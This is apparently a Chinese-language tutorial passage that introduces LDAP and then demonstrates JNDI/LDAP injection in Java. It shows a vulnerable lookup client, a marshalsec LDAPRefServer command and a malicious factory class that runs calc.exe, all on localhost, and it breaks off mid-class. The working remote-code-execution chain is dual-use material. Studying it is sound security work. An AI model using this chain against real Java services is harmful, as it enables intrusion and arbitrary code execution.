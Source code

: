 ### LDAP
LDAP（Lightweight Directory Access Protocol）-轻量目录访问协议。但看了这个解释等于没说，其实也就是一个数据库，可以把它与mysql对比！
具有以下特点：

1. 基于TCP/IP协议
2. 同样也是分成服务端/客户端；同样也是服务端存储数据，客户端与服务端连接进行操作
3. 相对于mysql的表型存储；不同的是LDAP使用树型存储 
   1. 因为树型存储，读性能佳，写性能差，没有事务处理、回滚功能

树层次分为以下几层：

- dn：一条记录的详细位置，由以下几种属性组成
- dc: 一条记录所属区域（哪一个树，相当于MYSQL的数据库）
- ou：一条记录所处的分叉（哪一个分支，支持多个ou，代表分支后的分支）
- cn/uid：一条记录的名字/ID（树的叶节点的编号，想到与MYSQL的表主键？）

举个例子一条记录就是
`dn="uid=aaron.luo,ou=oa,dc=example,dc=com"`

其实利用方法是没差的，我们之前分析的时候也可以看到代码会根据传入协议头的区别去进入对应的处理函数，只需要修改传入参数的解析头,再启动ldap服务，恶意class的web服务即可
#### 环境
`jdk8u121(windows)`

#### LdapClient.java
```java
//ldapClient.java
import javax.naming.Context;
import javax.naming.InitialContext;

public class LdapClient {
    public static void main(String[] args) throws Exception{
        String uri = "ldap://127.0.0.1:1389/aa";
        Context ctx = new InitialContext();
        ctx.lookup(uri);
    }
}
```
#### Server 使用 marshalsec-0.0.3-SNAPSHOT-all.jar 启动一个ldap服务
```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8081/#ExecTest
```
#### ExecTest.java
```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.directory.Attributes;
import javax.naming.spi.DirObjectFactory;
import java.util.Hashtable;

public class ExecTest implements DirObjectFactory {
    public ExecTest() throws Exception{
        Runtime.getRuntime().exec("calc.exe");
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment, Attributes attrs) throws Exception {
        return null;
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
```